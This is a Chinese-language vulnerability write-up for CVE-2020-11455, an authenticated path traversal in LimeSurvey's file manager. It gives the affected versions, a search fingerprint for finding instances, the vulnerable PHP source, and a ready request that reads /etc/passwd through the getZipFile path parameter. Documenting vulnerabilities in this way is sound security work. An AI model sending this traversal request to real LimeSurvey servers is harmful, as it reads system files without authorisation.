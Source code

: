 # LimeSurvey LimeSurveyFileManager.php 后台任意文件读取漏洞 CVE-2020-11455

## 漏洞描述

LimeSurvey（前称PHPSurveyor）是LimeSurvey团队的一套开源的在线问卷调查程序，它支持调查程序开发、调查问卷发布以及数据收集等功能。
LimeSurvey 4.1.12 + 200324之前版本中的application/controllers/admin/LimeSurveyFileManager.php文件存在路径遍历漏洞。该漏洞源于网络系统或产品未能正确地过滤资源或文件路径中的特殊元素。攻击者可利用该漏洞访问受限目录之外的位置。

## 漏洞影响

LimeSurvey < 4.1.12 + 200324

## 网络测绘

app="LimeSurvey"

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1650453876458-96aaea24-21f4-4ffb-9339-c596d9c4fc87.png)

出现漏洞的文件为 `application/controllers/admin/LimeSurveyFileManager.php`

![img](../../../.vuepress/public/img/1650453992802-1393b9ad-1a7f-41ba-b80c-5f2058c4bfc7-20220420194636996.png)

```php {14-19}
public function downloadFiles() {
        App()->loadLibrary('admin.pclzip');
        
        $folder = basename(Yii::app()->request->getPost('folder', 'global'));
        $files = Yii::app()->request->getPost('files');

        $tempdir = Yii::app()->getConfig('tempdir');
        $randomizedFileName = $folder.'_'.substr(md5(time()),3,13).'.zip';
        $zipfile = $tempdir.DIRECTORY_SEPARATOR.$randomizedFileName;
        $arrayOfFiles = array_map( function($file){ return $file['path']; }, $files);
        $archive = new PclZip($zipfile);
        $checkFileCreate = $archive->create($arrayOfFiles, PCLZIP_OPT_REMOVE_ALL_PATH);
        $urlFormat = Yii::app()->getUrlManager()->getUrlFormat();
        $getFileLink = Yii::app()->createUrl('admin/filemanager/sa/getZipFile');
        if($urlFormat == 'path') {
            $getFileLink .= '?path='.$zipfile;
        } else {
            $getFileLink .= '&path='.$zipfile;
        }

        $this->_printJsonResponse(
            [
                'success' => true,
                'message' => sprintf(gT("Files are ready for download in archive %s."), $randomizedFileName),
                'downloadLink' => $getFileLink ,
            ]
        );
    }
```

路由为: `admin/filemanager/sa/getZipFile`, 这里传入参数 path 到方法 `getZipFile()`中

![img](../../../.vuepress/public/img/1650454603065-aa5fbb1b-b8bb-4a45-ad2f-c86dd87ce2f5-20220420194643953.png)

这里通过 readfile方法 读取文件，登录后台后发送请求

```php
/index.php/admin/filemanager/sa/getZipFile?path=/../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1650454764306-b899ea3a-16f0-4fdb-b4a1-80df09dd17e4.png)